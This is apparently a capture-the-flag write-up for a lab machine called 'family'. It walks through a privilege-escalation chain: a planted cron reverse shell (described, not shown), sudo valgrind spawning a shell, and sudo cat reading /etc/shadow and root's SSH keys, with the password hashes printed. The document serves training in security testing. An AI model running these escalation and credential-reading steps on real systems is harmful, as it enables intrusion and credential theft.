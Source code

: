 /usr/share/perl/5.28.1/perso.txt ---> uncrackablepassword

We found the password for the user "father". After loggin in we can now see what is inside the directory "father", unfortanatly there was no useful information found, but we do have access to the directory "mother" where the "check.py" script that is running by crontab should be at. Doesn't seem there like there is any script there, so we can make one of our own. I found this tool on github named rsg (Reverse Shell Generator) that generated a python reverse shell we could upload to the remote machine. I made a file named check.py and added the script to it, and after one minute we got a shell as the user "mother"

$ sudo -l

User mother may run the following commands on family:
    (baby) NOPASSWD: /usr/bin/valgrind

We can run the command /usr/bin/valgrind as root without a password only as the "baby" user. The "valgrind" command is a debugging and profiling tool, we can open a new shell with the command like so "/usr/bin/valgrind /bin/bash". 

$ sudo -u baby /usr/bin/valgrind /bin/bash
whoami
baby
python3 -c 'import pty; pty.spawn("/bin/bash")'
baby@family:/home/mother$ 

Going to the "baby" directory there is a user.txt file.

user.txt:
Chilatyfile

Now we need to find the root flag.

baby@family:~$ sudo -l

User baby may run the following commands on family:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
baby@family:~$ 

We can only use the cat command as root, this means we can read files with root permissions like the /etc/shadow file.

baby:$6$rlIgk/Phk.yVFB7M$6HwyFb1Zdc.1U4AsleVCMMuBjAul2.E8iEnow7PS0YMPCj/1.bAOcrqOWcB.Rr8TenvucGd/uhcXQKpRJfgLR1:18742:0:99999:7:::


root:$6$L9G0N6PxOApm2r4H$USfkGDLggFm.5W9nF5V54J0Zi5hXCcMofITfEXf7QyxIUWnNX2l1bpxpXIYo20JY5968YsklB9k8x1e6RuND/0:18742:0:99999:7:::

I tried to use john to crack the password but it didn't work. What we can do is read file on the root directory.

baby@family:~$ sudo cat /root/.ssh
cat: /root/.ssh: Is a directory

We see we have a ssh directory on the root direcotry.

baby@family:~$ sudo cat /root/.ssh/authorized_keys
command="bash ~/troll.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCdu5YWqC4vVGDE8XaQ7UW/WkLgEgWPE6n4BNfeTha+4nIR2twAUHl6yfz0HpNMqMF996Yj8+lvr8pD5FeOCHlm0TPGZEeE72/04Bxebvoz/TCYbj2/6cPv3LndsoUyNyyrC8dleOfhvdaTWbJBMLaw/vrdQ18F93lkf25WIGpPc1lA2ubNXxXnfh9mwZ4ewx++91tTnJFaVAgfKm6sqzmMq3BedEmqlOcOSJyzZIFypov7WK/BkjI2UG91LthkGjFFqwsbndQqDhIhz0re6N1i0INhhIaNHEdAsgNHHXAYOjgGfeMFtmwepPoDeanHfruPHTxYeVzL55uEbK5e2cGv root@family
